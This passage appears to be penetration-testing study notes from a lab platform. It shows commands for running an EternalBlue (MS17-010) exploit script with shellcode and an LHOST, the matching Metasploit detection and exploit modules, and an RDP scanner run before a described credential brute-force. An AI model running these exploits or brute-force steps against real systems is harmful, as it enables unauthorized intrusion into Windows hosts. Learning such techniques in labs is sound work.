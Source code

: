 ```bash

root@attackdefense:~# chmod +x eternalblue_exploit7.py  (it debends on the victim's windows version)
root@attackdefense:~# python eternalblue_exploit7.py LHOST(ip) shellcode/sc_64.bin
```

<br />

**detect MS17-010 SMB (EternalBlue) with metasploit **

```bash
msf5 > use auxiliary/scanner/smb/smb_ms17_010
```



<br />

**exploite MS17-010 SMB (EternalBlue) with metasploit **

```bash
msf5 > exploit/windows/smb/ms17_010_eternalblue
```

<br />

---

#### 3- Exploiting RDP

- The Remote Desktop Protocol (RDP) is a proprietary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a Windows system.
- RDP uses TCP port 3389 by default, and can also be configured to run on any other TCP port.
- RDP authentication requires a legitimate user account on the target system as well as the user’s password in clear-text.
- We can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system.

<br />

**detect & confirm that RDP is running on specific port using metasploit `auxiliary/scanner/rdp/rdp_scanner` **

```bash
msf5 > use auxiliary/scanner/rdp/rdp_scanner
msf5 auxiliary(scanner/rdp/rdp_scanner) > options

Module options (auxiliary/scanner/rdp/rdp_scanner):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   DETECT_NLA       true             yes       Detect Network Level Authentication (NLA)
   RDP_CLIENT_IP    192.168.0.100    yes       The client IPv4 address to report during connect
   RDP_CLIENT_NAME  rdesktop         no        The client computer name to report during connect, UNSET = random
   RDP_DOMAIN                        no        The client domain name to report during connect
   RDP_USER                          no        The username to report during connect, UNSET = random
   RHOSTS                            yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT            3389             yes       The target port (TCP)
   THREADS          1                yes       The number of concurrent threads (max one per host)

msf5 auxiliary(scanner/rdp/rdp_scanner) > set RHOSTS 10.4.28.81
RHOSTS => 10.4.28.81
msf5 auxiliary(scanner/rdp/rdp_scanner) > set RPORT 3333
RPORT => 3333
msf5 auxiliary(scanner/rdp/rdp_scanner) > run

```